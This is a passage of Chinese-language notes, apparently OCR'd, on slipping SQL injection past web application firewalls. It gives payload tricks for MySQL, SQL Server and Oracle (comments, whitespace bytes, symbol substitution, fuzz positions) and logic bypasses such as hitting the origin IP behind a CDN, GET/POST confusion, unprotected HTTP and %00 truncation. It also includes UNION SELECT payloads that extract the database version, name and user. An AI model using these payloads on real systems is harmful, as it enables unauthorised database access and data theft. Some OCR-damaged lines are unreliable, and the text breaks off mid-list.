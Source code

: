   - mysql黑魔法
    
    select{x username}from {x11 test.admin};

- SQL Server技巧 
  - 用来注释掉注射后查询的其余部分： 
   
    /* 		C语言风格注释 
   
    -- 		SQL注释 
   
    ; 00％ 	空字节 

  - 空白符

    [0x01-0x20] 

  - 特殊符号

    %3a 冒号 

    id=1 union:select 1,2 from:admin 

  - 函数变形

    如db_name[空白字符]() 

- Oracle技巧 

  - 注释符

    --、/**/ 

  - 空白字符

    [0x00,0x09，0x0a-0x0d,0x20] 

- 配合FUZZ 

select * from admin where id=1【位置一】union【位置二】select【位置三】1,2,db_name()【位置四】from【位置五】admin 

### 逻辑层 

##### 逻辑问题 

- 云waf防护，一般我们会尝试通过查找站点的真实IP，从而绕过CDN防护。 
- 当提交GET、POST同时请求时，进入POST逻辑，而忽略了GET请求的有害参数输入,可尝试Bypass。 
- HTTP和HTTPS同时开放服务，没有做HTTP到HTTPS的强制跳转，导致HTTPS有WAF防护，HTTP没有防护，直接访问HTTP站点绕过防护。 
- 特殊符号%00，部分waf遇到%00截断，只能获取到前面的参数，无法获取到后面的有害参数输入，从而导致Bypass。比如：id=1%00and 1=2 union select 1,2,column_name from information_schema.columns 

##### 性能问题 

- 猜想1：在设计WAF系统时，考虑自身性能问题，当数据量达到一定层级，不检测这部分数据。只要不断的填充数据，当数据达到一定数目之后，恶意代码就不会被检测了。 
- 猜想2：不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug，从而实现绕过。 
- 例子1：

  ?id=1 and (select 1)=(Select 0xA*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9 
  PS：0xA*1000指0xA后面”A"重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考也许在有些情况下可能不需要这么长也能溢出。 

- 例子2： 
